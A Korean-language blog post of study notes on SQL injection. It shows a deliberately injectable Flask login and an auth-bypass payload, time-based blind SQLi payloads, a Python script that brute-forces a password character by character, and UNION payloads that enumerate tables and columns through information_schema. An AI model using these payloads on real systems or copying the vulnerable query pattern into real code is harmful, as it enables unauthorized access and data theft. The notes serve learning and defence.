 ```yaml
---
title: "[2025-07-11] SQL Injection"
excerpt: "SQL Injection 개념 정리"

categories:
  - Justice
tags:
  - [SQL Injection]

permalink: /Justice/[2025-07-11] SQL Injection/

toc: true
toc_sticky: true

date: 2025-07-11
last_modified_at: 2025-07-11
---
```


## 🦥 본문

### 정의

웹 애플리케이션의 입력값을 통해 SQL 쿼리를 조작하는 공격

### 예시

```jsx
from flask import Flask, request
import mysql.connector

app = Flask(__name__)

@app.route('/login', methods=['POST'])
def login():
    username = request.form['username']
    password = request.form['password']

    db = mysql.connector.connect(
        host="localhost",
        user="root",
        password="password",
        database="mydb"
    )

    cursor = db.cursor()

    query = f"SELECT * FROM users WHERE username = '{username}' AND password = '{password}'"
    cursor.execute(query)

    result = cursor.fetchone()

    if result:
        return "Login Success!"
    else:
        return "Login Failed"

if __name__ == "__main__":
    app.run(debug=True)
```

위의 코드에서 **`username에 'OR 1=1 --`** 로 하게 된다면

```jsx
SELECT * FROM users WHERE username= " OR 1=1 --'AND password= '[입력값]'; 
```

위와 같이 서버가 읽어드리게 된다. -- 뒤로는 다 주석 처리가 되므로 로그인이 성공한다.

## Blind SQL Injection

### 정의

공격자가 응답의 변화를 통해 간접적으로 SQL 결과를 추측하는 방식의 공격

### 종류

- Boolean-based Blind : 조건이 참/거짓일 때 페이지 내용이 달라지는지 비교
- Time-based Blind : 조건이 참이면 일부러 sleep() 등으로 서버 반응을 지연시킴

### 예시

아래와 같은 SQL문을 동작시키는 서버가 있다고 가정. Time-based Blind 방식 공격

```jsx
SELECT * FROM users WHERE username = '{username}' AND password = '{password}'
```

1. 비밀번호 길이 알아내기. 아래의 코드에서 LENGTH의 길이를 점점 늘려서 알아낸다.

```jsx
admin' AND IF(LENGTH(password)=8, SLEEP(5), 0)--
```

1. 길이를 알아냈다면 한 글자씩 알아내기. 맞다면 응답이 지연되기 때문에 이런 방식으로 비밀번호를 추론한다.

```jsx
admin' AND IF(SUBSTRING(password,1,1)='a', SLEEP(5), 0)--
```

### 공격 스크립트 : Requset 모듈

- GET 방

```jsx
import requests
url = 'https://dreamhack.io/'
headers = {
    'Content-Type': 'application/x-www-form-urlencoded',
    'User-Agent': 'DREAMHACK_REQUEST'
}
params = {
    'test': 1,
}
for i in range(1, 5):
    c = requests.get(url + str(i), headers=headers, params=params)
    print(c.request.url)
    print(c.text)
```

- POST 방식

```jsx
import requests
url = 'https://dreamhack.io/'
headers = {
    'Content-Type': 'application/x-www-form-urlencoded',
    'User-Agent': 'DREAMHACK_REQUEST'
}
data = {
    'test': 1,
}
for i in range(1, 5):
    c = requests.post(url + str(i), headers=headers, data=data)
    print(c.text)
```

- GET 방식. 모든 문자열에 대한 Blind SQLi 실행

```jsx
#!/usr/bin/python3
import requests
import string
# example URL
url = 'http://example.com/login'
params = {
    'uid': '',
    'upw': ''
}
# ascii printables
tc = string.printable
# 사용할 SQL Injection 쿼리
query = '''admin' and substr(upw,{idx},1)='{val}'-- '''
password = ''
# 비밀번호 길이는 20자 이하라 가정
for idx in range(0, 20):
    for ch in tc:
        # query를 이용하여 Blind SQL Injection 시도
        params['uid'] = query.format(idx=idx+1, val=ch).strip("\n")
        c = requests.get(url, params=params)
        print(c.request.url)
        # 응답에 Login success 문자열이 있으면 해당 문자를 password 변수에 저장
        if c.text.find("Login success") != -1:
            password += ch
            break
print(f"Password is {password}")
```

## Error Based SQLi

### 정의

SQL의 잘못된 문법이나 자료형 불일치 등에 의한 오류 메시지에 의존하여 수행되는 공격 기법

### 동작 흐름

![image.png](https://yunseo10987.github.io/assets/images/posts_img/2025-07-11%20SQLi/image.png)

1. HTTP 요청
2. 전달 받은 파라미터의 값을 SQL 쿼리에 대입
3. SQL 쿼리 실행 요청
4. 오류 메시지 반환
5. DB 오류 메시지와 함께 HTTP 응답
6. DB 정보 획득 

- 데이터베이스 별 공격 기법은 다음 링크에서 알 수 있다.

https://www.bugbountyclub.com/pentestgym/view/53

### Union Syntax

Union 기반의 공격 방법으로 다른 테이블의 공격도 가능하기 때문에 가장 위험한 공격 중 하나이다.  

동작 방식

- ORDER BY 1은 첫번째 컬럼을 오름차순 정렬하여 출력하는 것. 뒤에 숫자를 점점 키워서 컬럼의 갯수를 알아낼 수 있다.

```
?idx=임의의 문자열'+UNION+ALL+SELECT+'a',+NULL,+NULL--+
?idx=임의의 문자열'+UNION+ALL+SELECT+NULL,+'a',+NULL--+
?idx=임의의 문자열'+UNION+ALL+SELECT+NULL,+NULL,+'a'--+
...
```

- 위의 코드를 사용해서 만약 에러가 발생하지 않는다면 해당 컬럼은 문자열을 받을 수 있는 것 에러가 발생한다면 다른 타입
- 데이터베이스명을 반환하는 database() 함수

```
?idx=임의의 문자열'+UNION+ALL+SELECT+database(),2,3--+
```

- 모든 테이블 이름 추출을 하는 group_concat(table_name) 함수

```
?idx=임의의 문자열'+UNION+ALL+SELECT+group_concat(table_name),2,3+FROM+information_schema.TABLES+WHERE+table_schema=database()--+

+information_schema.TABLES 는 모든 DB의 테이블 정보를 저장하는 시스템 테이블
WHERE+table_schema=database()는 현재 DB의 테이블들만 조회
```

- 컬럼 추출
- group_concat(column_name)은 지정한 테이블의 모든 컬럼 이름을 콤마로 연결하여 반환.

```
?idx=임의의 문자열'+UNION+ALL+SELECT+group_concat(column_name),2,3+FROM+information_schema.COLUMNS+WHERE+table_schema=database()+AND+table_name='테이블명'--+
```

위의 방법들로 다른 테이블을 알아내어 다른 테이블에 접근할 수 있다.

+https://www.bugbountyclub.com/pentestgym/view/54